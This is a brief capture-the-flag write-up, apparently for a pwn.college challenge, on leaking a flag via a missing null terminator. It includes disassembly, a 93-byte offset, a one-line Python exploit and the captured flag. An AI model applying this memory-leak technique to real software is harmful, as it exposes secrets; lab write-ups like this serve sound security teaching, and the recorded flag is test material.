 In this challenge the program reads the flag but never prints it 

It also accepts user input using `read()` syscall which does not terminate with null character 

The flag read from the file is stored after the user input

So if the user input is long enough to be just before the flag then the `printf` function that was only meant to print the user input will also print the flag because print function prints until it encounters a null character

From objdump 

    0x0000000000001750 <+149>:   mov    rax,QWORD PTR [rbp-0x178]
    0x0000000000001757 <+156>:   mov    edx,0x100
    0x000000000000175c <+161>:   mov    rsi,rax 
    0x000000000000175f <+164>:   mov    edi,ecx
    0x0000000000001761 <+166>:   call   0x1140 <read@plt>

The flag will put at address `rbp - 0x178` 

The user input is at this location 

    0x7ffd57907cd0: 0x000a4141 

The offset is 93

The exploit 

    python -c 'import sys, time; sys.stdout.buffer.write(b"100"); time.sleep(1); sys.stdout.buffer.write(b"A"*93);'

The flag 

    You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwn.college{klEA_AR6286GAfrFa8lwnHOqoRx.0FOwMDL5kzM1czW}

